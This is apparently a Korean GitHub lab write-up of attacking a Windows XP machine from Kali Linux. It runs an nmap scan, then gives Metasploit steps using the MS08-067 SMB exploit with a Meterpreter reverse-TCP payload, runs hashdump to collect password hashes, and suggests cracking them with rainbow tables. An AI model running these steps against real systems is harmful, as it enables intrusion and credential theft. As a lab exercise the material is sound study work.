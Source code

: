 # Window Xp에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window Xp가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B8.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.

**nmap (WindowXp)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B82.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window XP에서 Password 수집하기

**msfconsole 을 Kali의 명령창에 입력한다.**

이후 우리는 Window XP의 취약점인 MS08-067을 이전의 실습을 통해 알고 있다.
이를 통해 우리는 password를 얻어낼 것이다.

**search ms08-067**

**use exploit/windows/smb/ms08_067_netapi**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%201.png)

**set payload windows/meterpreter/reverse_tcp_allports**

**show options**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%202.png)

**set RHOST (WindowXp의 IP)**

**set LHOST (Kali의 IP)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%203.png)

**run**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%204.png)

**sysinfo**

**hashdump**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%20%EC%99%84%EB%A3%8C.png)

</br>
### 이를 통한 공격방법은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
그렇다면 이것이 과연 무슨 역활을 하는가에 대해 생각하면 다음과 같이 이를 활용해서 공격을 할 수 있다.
그것은 바로 raindow Hashtable attack을 통해 취약점을 통해 구한 hash의 값에 맞는 원래의 Pw를 찾아내는 공격을 통해 사용자의 Password를 알아 낼 수 있다.
